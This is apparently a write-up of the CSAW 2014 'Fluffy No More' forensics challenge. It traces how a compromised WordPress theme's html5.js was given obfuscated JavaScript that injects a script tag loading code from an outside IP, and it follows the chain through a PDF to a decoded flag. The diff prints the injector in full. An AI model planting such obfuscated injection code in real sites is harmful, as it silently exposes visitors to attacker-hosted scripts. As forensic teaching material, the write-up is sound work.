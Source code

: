 So in the auth log there’s some interesting stuff
```
Sep 17 19:18:11 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/log/apache2 ; USER=root ; COMMAND=/bin/mv access.log error.log other_vhosts_access.log /var/log/apache2/
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
```

Diffing two versions of the changed file shows some added code

```
[12:30:23] $ diff ~/Downloads/CSAW2014-FluffyNoMore-v0.1/webroot/www/html/wp-content/themes/twentythirteen/js/html5.js ~/Downloads/CSAW2014-FluffyNoMore-v0.1/webroot/www/html/wp-content/themes/twentyfourteen/js/html5.js
8c8,9
< if(g)return a.createDocumentFragment();for(var b=b||i(a),c=b.frag.cloneNode(),d=0,e=m(),h=e.length;d<h;d++)c.createElement(e[d]);return c}};l.html5=e;q(f)})(this,document); var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
---
```

Which means they are injecting a script tag to: ```http://128.238.66.100/analytics.js```
```
> if(g)return a.createDocumentFragment();for(var b=b||i(a),c=b.frag.cloneNode(),d=0,e=m(),h=e.length;d<h;d++)c.createElement(e[d]);return c}};l.html5=e;q(f)})(this,document);
```

Loading the script ourselves, we are able to see this link to a pdf file.
```
http://128.238.66.100/announcement.pdf
```

That pdf had an embedded file in it.

Get this tool: http://blog.didierstevens.com/programs/pdf-tools/
```
./pdf-parser.py --object 8 --filter --raw announcement.pdf
```

That gives you:
```
obj 8 0
 Type: /EmbeddedFile
 Referencing: 
 Contains stream

  <<
    /Length 212
    /Type /EmbeddedFile
    /Filter /FlateDecode
    /Params
      <<
        /Size 495
        /Checksum <7f0104826bde58b80218635f639b50a9>
      >>
    /Subtype /application/pdf
  >>

 var _0xee0b=["\x59\x4F\x55\x20\x44\x49\x44\x20\x49\x54\x21\x20\x43\x4F\x4E\x47\x52\x41\x54\x53\x21\x20\x66\x77\x69\x77\x2C\x20\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x20\x6F\x62\x66\x75\x73\x63\x61\x74\x69\x6F\x6E\x20\x69\x73\x20\x73\x6F\x66\x61\x20\x6B\x69\x6E\x67\x20\x64\x75\x6D\x62\x20\x20\x3A\x29\x20\x6B\x65\x79\x7B\x54\x68\x6F\x73\x65\x20\x46\x6C\x75\x66\x66\x79\x20\x42\x75\x6E\x6E\x69\x65\x73\x20\x4D\x61\x6B\x65\x20\x54\x75\x6D\x6D\x79\x20\x42\x75\x6D\x70\x79\x7D"];var y=_0xee0b[0];
```

Loading that variable into nodejs to decode:
```
[ 'YOU DID IT! CONGRATS! fwiw, javascript obfuscation is sofa king dumb  :) key{Those Fluffy Bunnies Make Tummy Bumpy}' ]
```

